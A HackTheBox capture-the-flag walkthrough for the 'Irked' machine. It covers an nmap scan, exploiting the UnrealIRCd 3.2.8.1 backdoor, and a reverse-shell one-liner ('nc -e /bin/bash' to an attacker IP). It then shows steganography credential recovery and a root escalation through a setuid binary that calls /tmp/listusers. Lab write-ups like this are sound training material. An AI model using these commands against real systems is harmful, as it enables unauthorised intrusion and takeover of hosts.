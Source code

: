 ```yaml
---
title: HackTheBox - Irked
date: 2020-12-29 14:15:34 +0100
categories: [Hackthebox walkthroughs, Linux, Easy]
tags: [htb-linux-easy, backdoor, UnrealIRCd, steganography, linpeas, SUID, decompilation, ghidra, writeup, oscp-prep]
image: /assets/img/htb/machines/linux/easy/irked/Irked.png
---
```


## Foothold

### `nmap` scan

```bash
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Irked-full-port-scan.txt 10.10.10.117
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          33669/tcp6  status
|   100024  1          43204/udp6  status
|   100024  1          43678/tcp   status
|_  100024  1          60648/udp   status
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
43678/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd
Service Info: Host: irked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Apache/2.4.10 (port 80)

![web](/assets/img/htb/machines/linux/easy/irked/web.png)

![source](/assets/img/htb/machines/linux/easy/irked/source.png)

#### `dirb`

![dirb](/assets/img/htb/machines/linux/easy/irked/dirb.png)

![manual](/assets/img/htb/machines/linux/easy/irked/manual.png)

Nothing seems vulnerable on the Apache server. What about IRC ? 

### UnrealIRCd (port 6697, 8067, 65534)

According to the [RFC 1459](https://tools.ietf.org/html/rfc1459#section-4.1), in order to discuss with an IRC server we have to send 3 information: `PASS`, `NICK` and `USER`.

![RFC 1459](/assets/img/htb/machines/linux/easy/irked/RFC.png)

Let's send them to the target:

![irc](/assets/img/htb/machines/linux/easy/irked/irc.png)

Now we know **UnrealIRCd**'s version: `3.2.8.1`.

#### Manual exploit

By looking for exploits on this specific version, I came across this article describing [a backdoor in UnrealIRCd](https://lwn.net/Articles/392201/):

![backdoor](/assets/img/htb/machines/linux/easy/irked/backdoor.png)

Indeed, if we use `searchsploit` to find IRC's exploits the first one is about this backdoor:

![searchsploit](/assets/img/htb/machines/linux/easy/irked/searchsploit.png)

Let's try to exploit this vuln manually. We have to send a payload containing `AB + <command that we want to run>`.

- ICMP test:

![icmp-test](/assets/img/htb/machines/linux/easy/irked/icmp-test.png)

- Reverse shell:

![reverse-shell](/assets/img/htb/machines/linux/easy/irked/reverse-shell.png)

> **Note**: we could have used `metasploit`, or  `nmap` with the following options `--script=irc-unrealircd-backdoor --script-args=irc-unrealircd-backdoor.command="nc -e /bin/bash 10.10.14.6 4444"`

## User (ircd)

```bash
ircd@irked:~/Unreal3.2$ cd /home
ircd@irked:/home$ ls -la
total 16                                      
drwxr-xr-x  4 root     root     4096 May 14  2018 .
drwxr-xr-x 21 root     root     4096 May 15  2018 ..
drwxr-xr-x 18 djmardov djmardov 4096 Nov  3  2018 djmardov 
drwxr-xr-x  3 ircd     root     4096 May 15  2018 ircd 
ircd@irked:/home/$ cd djmardov
ircd@irked:/home/djmardov$ cd Documents
ircd@irked:/home/djmardov/Documents$ ls -la
ls -la
total 16
drwxr-xr-x  2 djmardov djmardov 4096 May 15  2018 .
drwxr-xr-x 18 djmardov djmardov 4096 Nov  3  2018 ..
-rw-r--r--  1 djmardov djmardov   52 May 16  2018 .backup
-rw-------  1 djmardov djmardov   33 May 15  2018 user.txt
ircd@irked:/home/djmardov/Documents$
```

Okay so we have to privesc to **djmardov**'s account in order to read his `user.txt`. What's inside `.backup`?

```bash
ircd@irked:/home/djmardov/Documents$ cat .backup
cat .backup
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
ircd@irked:/home/djmardov/Documents$
```

There is mention of steg which corresponds to steganography.

The only file that I think contains a secret is this image on the web page. Let's download it, and run `steghide` with the password `UPupDOWNdownLRlrBAbaSSss` found in `.backup`:

![pass](/assets/img/htb/machines/linux/easy/irked/pass.png)

`Kab6h+m+bbp2J:HG` is certainly the password of **djmardov**.

## User (djmardov)

Indeed we can use this password to log in with SSH:

![ssh](/assets/img/htb/machines/linux/easy/irked/ssh.png)

- Flag:

```bash
djmardov@irked:~$ cd Documents/
djmardov@irked:~/Documents$ cat user.txt 
4a66a78b12dc0e661a59d3f5c0267a8e
```

We cannot run `sudo`:

```bash
djmardov@irked:~$ sudo -l
-bash: sudo: command not found
```

If we take a closer look at the SUID files, we can see that `exim4` and` viewuser` are the most recently updated ones.

![SUID](/assets/img/htb/machines/linux/easy/irked/SUID.png)

I copied `viewuser` to my machine _(because I was more intrigued by this binary than exim4 which is a known Mail Transfer Agent)_ and I opened it with `ghidra`.

![scp](/assets/img/htb/machines/linux/easy/irked/scp.png)

Here is the disassembled main function:

![ghidra disassembled main](/assets/img/htb/machines/linux/easy/irked/ghidra-main.png)

> **Note**: we could also use `ltrace`.

`setuid(0)` is set just before `system("/tmp/listusers")`

So we just have to put a malicious content in `/tmp/listusers` and then execute `viewuser`.

## Root

```bash
djmardov@irked:/tmp$ echo "/bin/bash" > /tmp/listusers; chmod +x /tmp/listusers; viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2020-12-29 03:32 (:0)
djmardov pts/0        2020-12-29 04:05 (10.10.14.7)
root@irked:/tmp# id
uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
root@irked:/tmp# cat /root/root.txt
8d8e9e8be64654b6dccc3bff4522daf3
```

___

## Useful links

- [A backdoor in UnrealIRCd](https://lwn.net/Articles/392201/)